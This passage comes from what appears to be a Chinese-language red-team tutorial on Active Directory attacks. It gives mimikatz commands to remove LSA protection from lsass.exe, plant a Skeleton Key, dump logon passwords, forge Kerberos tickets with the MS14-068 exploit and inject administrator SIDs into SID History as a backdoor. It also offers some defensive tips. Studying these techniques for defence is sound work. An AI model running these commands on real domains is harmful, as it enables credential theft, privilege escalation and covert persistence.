net use \\WIN-9P499QKTLDO.adtest.com\c$ mimikatz /user:adtest\administrator
```

微软在2014年3月12日 添加了 LSA 保护策略 用来防止对进程lsass.exe的代码注入

这样就无法使用mimikatz对lsass.exe进行注入 相关操作也会失败

适用系统

```plain
windows  8.1
windows server 2012 R2
```

#### [绕过LSA](#toc_lsa)

该功能需要 mimidrv.sys文件

mimikatz命令

```plain
#！bash
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
```

导入驱动文件mimidrv.sys后 即可绕过LSA protection

[](https://storage.tttang.com/media/attachment/2022/06/17/1ed48053-837e-4b17-912d-92109bdf70aa.png)

**Skeleton Key 防御措施**

-   域管理员用户要设置强密码，确保恶意代码不会在域控制器中执行。
-   在所有域用户中启用双因子认证，例如智能卡认证。
-   启动应用程序白名单（例如 AppLocker），以限制 mimikatz 在域控制器中的运行。

PS：因为 Skeleton Key 是被注入到 lsass.exe 进程的，所以它只存在于内存中，如果域控制器重启，注入的 Skeleton Key 将会失效。

### [MS14-068 （CVE-2014-6324） 域控提权](#toc_ms14-068-cve-2014-6324)

#### [漏洞利用前提](#toc__6)

-   域控没有打MS14-068的补丁（KB3011780）
-   打下一台加入域的计算机
-   拿到这台计算机的域用户密码和sid

#### [工具下载](#toc__7)

Ms14-068.exe 下载地址:[https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068](https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068)

PSexec 下载地址:[https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe](https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe)

（PsExec是Microsoft提供的通用系统管理工具，可用于远程访问目标主机。PsExec不会要求您在PC上安装客户端程序或在远程主机上安装其他软件。）

#### [复现](#toc__8)

```plain
whoami /all
或者
mimikatz  # privilege::debug
mimikatz  # sekurlsa::logonpasswords
得到域用户sid和明文密码
```

利用ms14-068.exe生成伪造的kerberos协议证书

```plain
MS14-068.exe -u <username>@<domainname> -p <password> -s <usersid> -d <domainControlerAddr> 
MS14-068.exe -u 域用户名@域控名 -p 域用户密码 -s 域用户sid -d 域ip
```

然后利用kerberos模块写入证书

```plain
mimikatz # kerberos::ptc TGT_<username>@<domainname>.ccache
```

写入成功即可用PsExec.exe以管理员权限运行链接域控

```plain
psecec64.exe \\<主机名称>    cmd.exe 
```

### [SID Hsitory 后门](#toc_sid-hsitory)

#### [SID（安全标识符）](#toc_sid_1)

在Windows操作系统中，系统使用安全标识符来唯一标识系统中执行各种动作的实体，每个用户有SID，计算机、用户组和服务同样也有SID，这些SID互不相同，保证所标识实体的唯一性。

SID一般由以下组成：

```plain
S 表示 SID  SID始终以S开头
1 表示版本  该值始终为1
5 表示Windows安全权威机构
21-巴拉巴拉  是子机构值 通常用来表示并区分域
1128 为相对标识符 RID  如 域管理员组的RID为512
```

[](https://storage.tttang.com/media/attachment/2022/06/17/012791e7-49ac-4ce3-8e35-46f820df43ff.png)

Windows也定义了一些内置的本地SID和域SID来表示一些常见的组或身份

| SID | Name |
| --- | --- |
| S-1-1-0 | World |
| S-1-3-0 | Creator Owner |
| S-1-5-18 | Local SYSTEM |
| S-1-5-11 | Authenticated Users |
| S-1-5-7 | Anonymous |

#### [SID History](#toc_sid-history)

在AD域中，SID同样用来唯一标识一个对象，在LDAP中对应的属性名称为 objectSid

SIDHistory是一个为支持域迁移方案而设置的属性，当一个对象从一个域迁移到另一个域时，会在新域创建一个新的SID作为该对象的`objectSid`，在之前域中的SID会添加到该对象的`sIDHistory`属性中，此时该对象将保留在原来域的SID对应的访问权限

比如此时域A有一个用户User1，其LDAP上的属性如下：

| cn  | objectSid | sIDHistory |
| --- | --- | --- |
| User1 | S-1-5-21-3464518600-3836984554-627238718-2103 | null |

此时我们将用户User1从域A迁移到域B，那么他的LDAP属性将变为：

| cn  | objectSid | sIDHistory |
| --- | --- | --- |
| User1 | S-1-5-21-549713754-3312163066-842615589-2235 | S-1-5-21-3464518600-3836984554-627238718-2103 |

此时当User1访问域A中的资源时，系统会将目标资源的DACL与User1的`sIDHistory`进行匹配，也就是说User1仍具有原SID在域A的访问权限

值得注意的是，该属性不仅在两个域之间起作用，它同样也可以用于单个域中，比如实战中我们将一个用户A的`sIDHistory`属性设置为域管的`objectSid`，那么该用户就具有域管的权限

##### [操作](#toc__9)

打开一个具有域管理员权限的命令行窗口，然后打开mimikatz，将administrator的SID添加到test1 用户的SID History中

在使用mimikatz注入SID之前，需要使用 sid::patch 命令修复NTDS服务，否则无法将高权限的SID注入低权限用户的SID History属性

```plain
mimikatz # privilege::debug
mimikatz # sid::patch
mimikatz # sid::add /sam:test1 /new:administrator
```

[](https://storage.tttang.com/media/attachment/2022/06/17/93f9c5e3-b614-4703-a617-4522a8a03f88.png)

此时的test1将具有域管权限

##### [mimikatz命令中的sid应用之域内影子账户](#toc_mimikatzsid)

假设我们此时拿到了域控，然后设置一个普通域用户的SID为域管的SID

[](https://storage.tttang.com/media/attachment/2022/06/17/4148cb03-22c8-4524-b6a6-3078dab49466.png)

此时我们这个用户仍然只是Domain Users组中的普通域成员

[](https://storage.tttang.com/media/attachment/2022/06/17/6e9c08b6-a061-415c-9f20-4c8a3a1fb436.png)

但该用户此时已经具有了域管的权限，例如dcsync：

[](https://storage.tttang.com/media/attachment/2022/06/17/44a82169-32e7-4a77-8493-1f847f201751.png)

并且此时也可以用该用户的账号和密码登录域控，登录成功后是administrator的session。但该操作很有可能造成域内一些访问冲突（猜测，未考证），建议在生产环境中慎用

## [防御](#toc__10)

### [禁用cmd与regedit（不适用于win10家庭版 因为打不开本地组策略编辑器）](#toc_cmdregeditwin10)

输入gpedit.msc进入本地组策略编辑器

[](https://storage.tttang.com/media/attachment/2022/06/17/53c355ac-eed3-44cc-be10-3d4214c31f89.png)

禁用cmd与regedit分别为

启用组织访问命令提示符 与 启动阻止访问注册表编辑工具

## [参考链接](#toc__11)

[https://blog.csdn.net/weixin\_40412037/article/details/113348310](https://blog.csdn.net/weixin_40412037/article/details/113348310)

[https://www.cnblogs.com/-mo-/p/11890232.html](https://www.cnblogs.com/-mo-/p/11890232.html)
